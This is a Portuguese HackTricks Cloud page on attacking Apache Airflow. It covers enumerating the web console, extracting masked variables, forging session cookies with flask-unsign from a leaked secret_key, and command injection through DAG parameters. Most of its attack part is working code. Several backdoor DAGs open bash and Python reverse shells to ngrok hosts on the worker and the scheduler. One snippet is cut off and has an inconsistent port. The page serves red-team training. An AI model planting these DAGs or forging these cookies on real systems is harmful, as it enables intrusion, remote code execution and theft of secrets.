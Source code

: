 # Segurança do Apache Airflow

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}

### Informações Básicas

[**Apache Airflow**](https://airflow.apache.org) serve como uma plataforma para **orquestrar e agendar pipelines de dados ou fluxos de trabalho**. O termo "orquestração" no contexto de pipelines de dados significa o processo de organizar, coordenar e gerenciar fluxos de trabalho de dados complexos que se originam de várias fontes. O principal objetivo desses pipelines de dados orquestrados é fornecer conjuntos de dados processados e consumíveis. Esses conjuntos de dados são amplamente utilizados por uma infinidade de aplicações, incluindo, mas não se limitando a ferramentas de inteligência de negócios, ciência de dados e modelos de aprendizado de máquina, todos os quais são fundamentais para o funcionamento de aplicações de big data.

Basicamente, o Apache Airflow permitirá que você **agende a execução de código quando algo** (evento, cron) **acontecer**.

### Laboratório Local

#### Docker-Compose

Você pode usar o **arquivo de configuração docker-compose de** [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) para lançar um ambiente docker completo do apache airflow. (Se você estiver no MacOS, certifique-se de dar pelo menos 6GB de RAM para a VM do docker).

#### Minikube

Uma maneira fácil de **executar o apache airflow** é executá-lo **com minikube**:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
### Configuração do Airflow

O Airflow pode armazenar **informações sensíveis** em sua configuração ou você pode encontrar configurações fracas em vigor:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

### RBAC do Airflow

Antes de começar a atacar o Airflow, você deve entender **como as permissões funcionam**:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

### Ataques

#### Enumeração do Console Web

Se você tiver **acesso ao console web**, pode ser capaz de acessar algumas ou todas as seguintes informações:

* **Variáveis** (Informações sensíveis personalizadas podem ser armazenadas aqui)
* **Conexões** (Informações sensíveis personalizadas podem ser armazenadas aqui)
* Acesse-as em `http://<airflow>/connection/list/`
* [**Configuração**](./#airflow-configuration) (Informações sensíveis como **`secret_key`** e senhas podem ser armazenadas aqui)
* Liste **usuários e funções**
* **Código de cada DAG** (que pode conter informações interessantes)

#### Recuperar Valores de Variáveis

As variáveis podem ser armazenadas no Airflow para que os **DAGs** possam **acessar** seus valores. É semelhante a segredos de outras plataformas. Se você tiver **permissões suficientes**, pode acessá-las na GUI em `http://<airflow>/variable/list/`.\
O Airflow, por padrão, mostrará o valor da variável na GUI, no entanto, de acordo com [**isso**](https://marclamberti.com/blog/variables-with-apache-airflow/), é possível definir uma **lista de variáveis** cujo **valor** aparecerá como **asteriscos** na **GUI**.

![](<../../.gitbook/assets/image (164).png>)

No entanto, esses **valores** ainda podem ser **recuperados** via **CLI** (você precisa ter acesso ao DB), execução de **DAG** arbitrário, **API** acessando o endpoint de variáveis (a API precisa ser ativada) e **até mesmo a própria GUI!**\
Para acessar esses valores a partir da GUI, basta **selecionar as variáveis** que você deseja acessar e **clicar em Ações -> Exportar**.\
Outra maneira é realizar um **bruteforce** no **valor oculto** usando o **filtro de pesquisa** até obtê-lo:

![](<../../.gitbook/assets/image (152).png>)

#### Escalação de Privilégios

Se a configuração **`expose_config`** estiver definida como **True**, a partir da **função Usuário** e **acima**, pode-se **ler** a **configuração na web**. Nessa configuração, a **`secret_key`** aparece, o que significa que qualquer usuário com isso válido pode **criar seu próprio cookie assinado para se passar por qualquer outra conta de usuário**.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
#### DAG Backdoor (RCE no trabalhador do Airflow)

Se você tiver **acesso de escrita** ao local onde os **DAGs são salvos**, você pode simplesmente **criar um** que enviará para você um **reverse shell.**\
Observe que este reverse shell será executado dentro de um **container de trabalhador do airflow**:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
#### DAG Backdoor (RCE no agendador do Airflow)

Se você definir algo para ser **executado na raiz do código**, no momento da escrita deste texto, ele será **executado pelo agendador** após alguns segundos depois de colocá-lo dentro da pasta do DAG.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
#### Criação de DAG

Se você conseguir **comprometer uma máquina dentro do cluster DAG**, pode criar novos **scripts de DAG** na pasta `dags/` e eles serão **replicados no restante das máquinas** dentro do cluster DAG.

#### Injeção de Código em DAG

Quando você executa um DAG pela GUI, pode **passar argumentos** para ele.\
Portanto, se o DAG não estiver devidamente codificado, ele pode ser **vulnerável a Injeção de Comando.**\
Foi isso que aconteceu neste CVE: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

Tudo o que você precisa saber para **começar a procurar por injeções de comando em DAGs** é que **parâmetros** são **acessados** com o código **`dag_run.conf.get("param_name")`**.

Além disso, a mesma vulnerabilidade pode ocorrer com **variáveis** (note que com privilégios suficientes você poderia **controlar o valor das variáveis** na GUI). Variáveis são **acessadas com**:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
Se eles forem usados, por exemplo, dentro de um comando bash, você pode realizar uma injeção de comando.

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}
